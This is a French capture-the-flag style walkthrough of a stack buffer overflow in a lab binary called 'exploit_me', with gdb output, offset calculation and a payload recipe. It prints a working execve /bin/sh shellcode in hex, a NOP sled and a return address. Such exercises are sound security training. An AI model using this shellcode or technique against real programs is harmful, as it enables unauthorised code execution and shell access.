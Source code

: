 ```asm
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
   0x08048429 <+53>:	mov    DWORD PTR [esp],eax
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    eax,0x0
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
Le binaire segfault si on lui passe une chaine de caractère trop longue. On en déduit qu'on est dans un cas de *Buffer Overflow* à exploiter.  

La longueur de la chaine qui fait segfault le programme est de 140 caractères.  
On trouve cette taille par 2 moyens:
1. en itérant:
```bash
./exploit_me $(python -c 'print("A" * 141)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
2. ou [en regardant les adresses des registres](https://0xrick.github.io/binary-exploitation/bof5/) `eip` et `esi`:  
On lance notre programme dans **gdb** avec: `run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`  
On récupère l'adresse d'`eip` avec *info frame*:  
```
(gdb) info frame
Stack level 0, frame at 0xbffff6d0:
 eip = 0x8048436 in main; saved eip 0xbffff680
 Arglist at 0xbffff6c8, args:
 Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
 Saved registers:
  ebp at 0xbffff6c8, eip at 0xbffff6cc
```
On affiche 24 mots à partir de l'adresse `esp` pour voir le début de notre buffer (rappel ici, A = 41):
```
(gdb) x/24wx $esp
0xbffff630:	0xbffff680	0xbffff8db	0x00000001	0xb7ec3c49
0xbffff640:	0x41414100	0x41414141	0x41414141	0x41414141
0xbffff650:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff670:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff680:	0x41414141	0x41414141	0x41414141	0x08040041
```
On fait alors la différence entre les addresses:
```
(gdb) p/d 0xbffff6cc - 0xbffff640
$12 = 140
```
On sait donc que notre exploitation doit tenir dans ce buffer. En suivant plusieurs techniques, voici comment on a procédé:  
1. un padding de "\x90" qui correspond à l'opcode `NOP`, soit, No Operation, qui ne fait donc rien.
2. un *shellcode*, une chaine de caractère en hexa qui est la transcription d'un petit script shell, ici pour ouvrir un shell.
`\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh`. On en trouve des similaires sur [shell-storm](http://shell-storm.org/shellcode/) par exemple.
3. Une adresse finale connue du programme puisqu'elle suit celle du registre `eip`, `eip` + 4. En hexa et en little endian, ça donne ceci: `"\xd0\xf6\xff\xbf"`

